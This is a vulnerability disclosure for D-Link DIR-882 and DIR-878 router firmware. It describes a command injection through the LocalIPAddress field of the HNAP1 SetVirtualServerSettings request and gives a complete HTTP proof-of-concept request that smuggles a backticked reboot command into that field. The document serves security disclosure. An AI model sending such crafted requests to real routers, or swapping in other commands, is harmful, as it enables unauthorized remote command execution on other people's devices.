 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetVirtualServerSettings` function,`ExternalPort、InternalPort、ProtocolNumber、LocalIPAddress` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `librcm.so` binary:

In `VIRTUALSERVER_run` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>



## PoC

We set `LocalIPAddress` as **`reboot`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 745
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: 00DE7FCD66C2D4FA5E68801202143913 1727332590756
Accept: text/xml
Content-Type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/VirtualServer.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=j4QVCB2r
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>pjqwudi</VirtualServerDescription>
					<ExternalPort>4000</ExternalPort>
					<InternalPort>4000</InternalPort>
					<ProtocolType>TCP</ProtocolType>
					<ProtocolNumber>6</ProtocolNumber>
					<LocalIPAddress>`reboot`</LocalIPAddress>
					<ScheduleName>Always</ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>



## Result

The router will reboot.
